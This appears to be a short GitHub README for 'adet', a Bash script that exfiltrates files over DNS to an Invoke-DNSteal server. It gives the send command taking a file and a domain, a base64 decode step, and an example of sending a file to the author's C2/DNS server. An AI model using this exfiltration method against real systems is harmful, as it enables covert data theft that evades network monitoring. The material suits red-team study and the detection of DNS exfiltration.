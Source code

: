 # adet: Another DNS Exfiltration Tool
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run [Invoke-DNSteal.py](https://github.com/JoelGMSec/Invoke-DNSteal ) in your DNS server
2. Use:
```
./sendFileInvokeDNSteal.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending [byp4xx.py](https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py) to my own customized C2/DNS server 
![](dnsteal.jpg)
